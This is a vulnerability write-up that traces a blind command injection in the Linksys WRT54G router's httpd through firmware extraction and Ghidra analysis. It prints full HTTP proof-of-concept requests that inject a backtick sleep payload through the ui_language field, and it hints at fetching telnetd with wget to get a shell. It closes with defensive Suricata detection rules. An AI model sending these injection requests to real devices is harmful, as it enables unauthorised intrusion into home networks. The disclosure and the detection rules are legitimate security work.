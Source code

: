# Linksys WRT54G - v3.1

Published: March 24, 2020

This write up will go over how I found an exploited a command injection vulnerability in a `Linksys WRT54G` Small Office / Home Office router.

I downloaded the firmware for `Linksys WRT54G` version `3.1` from here:

[https://downloads.linksys.com/downloads/firmware/1224638367382/FW_WRT54Gv4_4.21.5.000_20120220.bin](https://downloads.linksys.com/downloads/firmware/1224638367382/FW_WRT54Gv4_4.21.5.000_20120220.bin)

Note that this firmware file is from 2012. According to [this link](https://www.linksys.com/us/support-article?articleNum=291978), the end of life (EOL) date for this device was:

>Prior to 2012

Since this device has been EOL'd for **at least** eight years (if not more), I am publishing this write up without reaching out to the vendor since it is unlikely to be patched at this point.  If you are still using this equipment, valid countermeasures to protect aginst this vulnerability include changing the default credentials for your router. Suricata rules are also included at the bottom of this write up.

## Hunting for Command Injection

Next I extracted the squashfs filesystem from the `FW_WRT54Gv4_4.21.5.000_20120220.bin` file using `binwalk -eM FW_WRT54Gv4_4.21.5.000_20120220.bin`.

Before I begin command injection testing, I want to know whether or not the `telnetd` or `utelnetd` binaries exist on the firmware filesystem, so I do a quick `find . -iname "*telnet*"`.  I don't find any results, so I will have to fall back to the `/bin/sleep` methodology for command injection testing. This methodology focuses on timing differences when a `sleep` sub-command is injected into a call to `system`.

Opening up `/usr/sbin/httpd` in Ghidra, we can start to look for command injection vulnerabilities. I start with the `system` function and viewing all instances of this function in the binary:

!["System Calls"](images/0034-system-calls.png "System Calls")

The first few calls are located in a function called `do_upgrade_post`, which by reading through it we can infer that this is the function that handles the configuration restore feature at the url path `/restore.cgi`.  

!["Command Injection"](images/0034-command-injection.png "Command Injection")

The following code is particularly interesting:

```c++
puVar7 = (undefined *)nvram_get("ui_language");
uVar8 = 0;
if (puVar7 == (undefined *)0x0) {
  puVar7 = &DAT_0047a2b8;
}
snprintf(acStack88,0x40,"cp /www/%s_lang_pack/captmp.js /tmp/.",puVar7);
system(acStack88);
```

In other words, if we can control the value of the NVRAM parameter `ui_language`, we can exploit this vulnerability.

It turns out we can control this value without any filtering happening on the server.  The following HTTP request demonstrates setting a malicious value for `ui_language` and 'primes' the vulnerability:

```http
POST http://192.168.1.1/apply.cgi HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.67 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 682
Authorization: Basic YWRtaW46YWRtaW4=
Referer: http://192.168.1.1/apply.cgi
Host: 192.168.1.1

submit_button=index&change_action=gozila_cgi&submit_type=language&action=&now_proto=dhcp&daylight_time=0&lan_ipaddr=4&wait_time=0&need_reboot=0&ui_language=%60%2fbin%2fsleep%24%7BIFS%7D23%60&wan_proto=dhcp&router_name=asdf&wan_hostname=&wan_domain=&mtu_enable=0&lan_ipaddr_0=192&lan_ipaddr_1=168&lan_ipaddr_2=1&lan_ipaddr_3=1&lan_netmask=255.255.255.0&lan_proto=dhcp&dhcp_check=&dhcp_start=100&dhcp_num=50&dhcp_lease=0&wan_dns=4&wan_dns0_0=0&wan_dns0_1=0&wan_dns0_2=0&wan_dns0_3=0&wan_dns1_0=0&wan_dns1_1=0&wan_dns1_2=0&wan_dns1_3=0&wan_dns2_0=0&wan_dns2_1=0&wan_dns2_2=0&wan_dns2_3=0&wan_wins=4&wan_wins_0=0&wan_wins_1=0&wan_wins_2=0&wan_wins_3=0&time_zone=-08+1+1&_daylight_time=1
```

The value we have chosen is:
```bash
`/bin/sleep${IFS}23`
```

If invoked in the target `system` function, it will cause the system to sleep for 23 seconds before continuing processing the request and eventually responding.

If we run the prime request and immediately follow it with an exploit request, we can achieve command injection.  The exploit request is:

```http
POST http://192.168.1.1/restore.cgi HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.67 Safari/537.36
Content-Type: multipart/form-data; boundary=---------------------------169284500162711627955704791
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 362
Referer: http://192.168.1.1/Backup_Restore.asp
Host: 192.168.1.1

-----------------------------169284500162711627955704791
Content-Disposition: form-data; name="submit_button"

Backup_Restore
-----------------------------169284500162711627955704791
Content-Disposition: form-data; name="restore"; filename="WRT54GV2_v4.21.5.cfg"
Content-Type: application/octet-stream

-----------------------------169284500162711627955704791--
```

Pay attention to the length of time it takes for this request to complete.  The request normally takes 5-6 seconds to complete; if you run the 'prime' request first, that length of time will extend past 23 seconds to between 28-30 seconds.  This is because `sleep 23` is being passed along to the `system` function and the kernel is subsequently waiting 23 seconds to resume processing.

## Analysis
Both requests are authenticated and the exploit requires two web requests.  In reality, this is probably not a very practical exploit.  Even if the default credentials are set at `admin:admin` and you can make the two web requests, there is no easy way to gain an interactive shell since the prerequisite binaries for the telnet daemon are not present.  Also since this command injection does not return any output ("blind" command injection), it is not useful for retrieving data from the device.  One could conceivably compile their own busybox `telnetd` binary and retrieve it over HTTP using `wget` (which is installed in the firmware at `/usr/bin/wget`).  Keep in mind the `ui_language` parameter expects no space characters, and the command injection seems to fail if any space characters are present in the payload.  Use `${IFS}` in place of spaces.

## Suricata Rules to Protect Yourself

### Suricata 5.0

```
alert http any any -> $HOME_NET any (msg:"ET EXPLOIT Linksys WRT54G Version 3.1 Command Injection Attempt"; flow:established,to_server; http.method; content:"POST"; http.header; content:"Authorization|3a 20|Basic|20|"; http.uri; content:"/apply.cgi"; startswith; http.request_body; content:"change_action=gozila_cgi"; fast_pattern; content:"submit_type=language"; content:"&ui_language="; pcre:"/^[(?:\x60|%60)(?:\x27|%27)]/R"; classtype:attempted-admin; sid:1; rev:1;) 
```

### Suricata 4.0

``` 
alert http any any -> $HOME_NET any (msg:"ET EXPLOIT Linksys WRT54G Version 3.1 Command Injection Attempt"; flow:established,to_server; content:"POST"; http_method; content:"Authorization|3a 20|Basic|20|"; http_header; content:"/apply.cgi"; http_uri; depth:10; content:"change_action=gozila_cgi"; http_client_body; fast_pattern; content:"submit_type=language"; http_client_body; content:"&ui_language="; http_client_body; pcre:"/^[(?:\x60|%60)(?:\x27|%27)]/PR"; classtype:attempted-admin; sid:1; rev:1;)
```

Thanks to [@zoomequipd](https://twitter.com/zoomequipd) for the rules.